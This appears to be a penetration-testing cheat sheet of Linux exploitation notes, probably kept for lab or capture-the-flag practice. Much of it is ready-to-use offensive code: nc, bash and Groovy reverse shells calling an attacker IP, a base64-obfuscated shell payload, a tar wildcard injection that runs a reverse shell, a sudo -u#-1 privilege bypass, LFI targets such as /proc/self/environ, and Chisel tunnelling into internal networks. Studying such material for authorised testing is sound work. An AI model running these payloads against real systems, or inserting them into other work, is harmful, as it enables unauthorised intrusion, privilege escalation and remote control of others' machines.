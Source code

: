 # Linux Exploitation

## Enumerate Linux Machine
* [LinEnum](https://github.com/rebootuser/LinEnum)
* [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite): 
    * `./linpeas.sh | tee enum.txt` 
    * `less -r enum.txt`

## Find Interesting Files
* Find File With uuid Permission
    * `find / -perm /u=s 2>/dev/null`
    * `find / -perm /4000 2>/dev/null`
* Files With Capabilities
    * `getcap -r / 2>/dev/null`


## Generate reverse netcat
* `msfvenom -p cmd/unix/reverse_netcat lhost=10.13.3.36 lport=4444`
    * `mkfifo /tmp/kirxhbg; nc 10.13.3.36 4444 0</tmp/kirxhbg | /bin/sh >/tmp/kirxhbg 2>&1; rm /tmp/kirxhbg`
* Bash Reverse Shell
    * `bash -c 'bash -i >& /dev/tcp/10.13.3.36/4444 0>&1'`
    * Create one to send on the web
```bash
$ echo 'bash -i >& /dev/tcp/localhost/4444 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC9sb2NhbGhvc3QvNDQ0NCAwPiYxCg==

# Add spaces to remove the + and =

$ echo 'bash  -i >& /dev/tcp/localhost/4444 0>&1 ' | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3AvbG9jYWxob3N0LzQ0NDQgMD4mMSAK

# Send this as the payload
$ echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvbG9jYWxob3N0LzQ0NDQgMD4mMSAK | base64 -d | bash
```
* Listener: `nc -klvnp 4444`
    * k - Wait for more connections after completion
    * l - Listen for connection
    * v - Verbose
    * n - Don't do DNS lookup
    * p - Port to listen to

## Reverse Shells

### PHP Reverse Shells
* phpbash (webshell): https://github.com/Arrexel/phpbash
* php-reverse-shell.php : https://github.com/pentestmonkey/php-reverse-shell
* #!/usr/bin/env php

### Groovy Reverse Shell
```groovy
String host="10.13.3.36";
int port=4444;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

## Stabilisation of Shell
```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'; export TERM=xterm
```
CTRL-z
```sh
stty raw -echo;fg
```

If the number of rows and column don't match. 

On your machine:
```bash
 stty -a
speed 38400 baud; rows 53; columns 211; line = 0;
```

Then in the reverse shell:
```bash
stty rows 53 cols 211
```

If python is not on the server:

```bash
script /dev/null -c bash
```

https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/


## sudo
* List sudo Permisions
    * `sudo -l`
* Abuse sudo with (ALL, !root)
    * `sudo -u#-1`

## Abuse tar With Wildcard *
```sh
echo "mkfifo /tmp/kirxhbg; nc 10.13.3.36 4444 0</tmp/kirxhbg | /bin/sh >/tmp/kirxhbg 2>&1; rm /tmp/kirxhbg" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

## Using nc To Transfer Files

On the receiving machine
```bash
nc -l -p 1234 > file
```
On the sending machine, open the connection and send the file.

```bash
nc -w 3 10.13.3.36 1234 < file
```

## Scan for Open Ports With nc
```bash
import os

for i in range(65535):
        command = f"nc -v -z -n -w 1 172.17.0.1 {i}"
        os.system(command)
```

## Interesting LFI Files

* /etc/passwd - Get the users on the system
* /proc/self/ - Information of the current process, replace self with PID to get other processes
    * /proc/self/cmdline - Command line
    * /proc/self/environ - Environment variables
    * /proc/self/stat - Information of the process, PID, Parrent PID

## Create Tunnel with Chisel

Useful when you have a reverse shell and want to tunnel some traffic without a SSH connection.

Download [Chisel](https://github.com/jpillora/chisel).

### Create a tunnel

Create the reverse server in your machine on port 3477.

```bash
$ ./chisel server -p 3477 --reverse
022/09/09 09:35:29 server: Reverse tunnelling enabled
2022/09/09 09:35:29 server: Fingerprint dzD/Qptfc30MSxvgsDGogRBXv2AcwIQJD2C2S/tsmRM=
2022/09/09 09:35:29 server: Listening on http://0.0.0.0:3477
```

Launched the client in the target machine. This connect to the server on port 3477 and create a tunnel. Any traffic on port 2222 on your machine will be tunneled to the target machine and send to 172.19.0.1 on port 80.

```bash
$ ./chisel client 10.10.14.143:3477 R:2222:172.19.0.1:80/tcp
2022/09/09 13:39:57 client: Connecting to ws://10.10.14.143:3477
2022/09/09 13:39:57 client: Connected (Latency 25.96244ms)
```

Open your browser on http://localhost:2222/ and you will see the site on 172.19.0.1:80.

### Dynamic tunneling

Create the server on your machine.

```bash
$ ./chisel server -p 9312 --reverse 
2022/09/09 10:28:25 server: Reverse tunnelling enabled
2022/09/09 10:28:25 server: Fingerprint fW9TjgADygUXnU2VPbt6aR3Tq0njW7wTa9/MpN8acm0=
2022/09/09 10:28:25 server: Listening on http://0.0.0.0:9312
```

Lauch the client on the target machine, creating a reverse socks tunnel

```bash
$ ./chisel client 10.10.14.143:9312 R:socks
2022/09/09 14:29:49 client: Connecting to ws://10.10.14.143:9312
2022/09/09 14:29:49 client: Connected (Latency 25.930019ms)
```

You should get a connection on your server.

```bash
2022/09/09 10:29:48 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```

Configure proxychains to for socks5 on port 1080.

> /etc/proxychains4.conf
```
socks5  127.0.0.1 1080
```

Use proxychains to run commands on the target from your machine.

```bash
$ proxychains nmap 172.19.0.1 2>/dev/null
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-09 10:33 EDT
Nmap scan report for  (172.19.0.1)
Host is up (0.078s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 79.48 seconds
```
